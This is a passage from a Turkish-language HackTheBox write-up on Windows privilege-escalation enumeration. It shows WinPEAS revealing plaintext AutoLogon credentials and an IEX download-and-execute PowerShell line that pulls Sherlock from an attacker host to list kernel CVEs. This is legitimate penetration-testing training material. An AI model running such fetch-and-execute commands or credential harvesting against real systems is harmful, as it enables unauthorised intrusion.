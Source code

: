 ```
  [+] Looking for AutoLogon credentials
    Some AutoLogon credentials were found!!
    DefaultUserName               :  kostas
    DefaultPassword               :  kdeEjDowkS*  
```

Bir sürü servis potansiyel olarak ilginç olarak belirtildi, ancak bunların hiçbirinden gerçekten bir sonuç çıkmadı.

### Enumeration - Watson/Sherlock

WinPEAS çıktısında dikkatimi çeken bir şey, [Watson](https://github.com/rasta-mouse/Watson) sonuçlarının olmamasıydı. Watson, bu Windows sunucusunun savunmasız olabileceği CVE'leri hızlıca kontrol eden bir araçtır ve HTB'nin ilk zamanlarında bu yaygın bir yükseltme tekniğiydi (hatta bu sunucuda da amaçlanan yol budur). Watson'ın çalışmamasının en olası nedeni, winPEAS'taki Watson'ın gerektirdiği .NET sürümünün 4.5 olması, ancak bu sunucuda yalnızca 4.0 sürümünün bulunmasıdır:

```
PS C:\windows\microsoft.net\framework> ls


    Directory: C:\windows\microsoft.net\framework


Mode                LastWriteTime     Length Name
----                -------------     ------ ----
d----         22/8/2013   6:39 ??            v1.0.3705
d----         22/8/2013   6:39 ??            v1.1.4322
d----         22/8/2013   6:39 ??            v2.0.50727
d----         20/3/2021   8:06 ??            v4.0.30319
...[snip]...
```

Eğer Watson'ı çalıştırmak istiyorsam, onu indirip kutudaki .NET sürümlerinden birine uyacak şekilde derleyerek çalıştırmayı deneyebilirim, ancak hızlı bir şekilde çalıştırmayı başaramadım. Bunun yerine, bu sunucu çok eski olduğu için, Watson'ın öncülü olan Sherlock'a yöneldim. Hem [Sherlock](https://github.com/rasta-mouse/Sherlock) hem de Watson'ı yaklaşık 2,5 yıl önce [Bounty](https://0xdf.gitlab.io/2018/10/27/htb-bounty.html#enumeration) yazısında göstermiştim.

Sherlock bir PowerShell scriptidir. Bir kopyasını indireceğim ve bir sürü fonksiyon tanımladığını ancak hiçbirini çağırmadığını göreceğim. Sonuna `Find-AllVulns` fonksiyonunu çağırmak için bir satır ekleyeceğim. Ardından, bir kopyasını barındırmak için bir Python HTTP sunucusu kullanacağım ve bir shell elde ettiğim yöntemle çalıştıracağım:

```
PS C:\> IEX(New-Object Net.WebClient).downloadstring('http://10.10.14.10/Sherlock.ps1')
                                                    
Title      : User Mode to Ring (KiTrap0D)
MSBulletin : MS10-015              
CVEID      : 2010-0232
Link       : https://www.exploit-db.com/exploits/11199/
VulnStatus : Not supported on 64-bit systems

Title      : Task Scheduler .XML
MSBulletin : MS10-092                       
CVEID      : 2010-3338, 2010-3888
Link       : https://www.exploit-db.com/exploits/19930/
VulnStatus : Not Vulnerable
                                                    
Title      : NTUserMessageCall Win32k Kernel Pool Overflow
MSBulletin : MS13-053                     
CVEID      : 2013-1300
Link       : https://www.exploit-db.com/exploits/33213/
VulnStatus : Not supported on 64-bit systems
                                                    
Title      : TrackPopupMenuEx Win32k NULL Page
```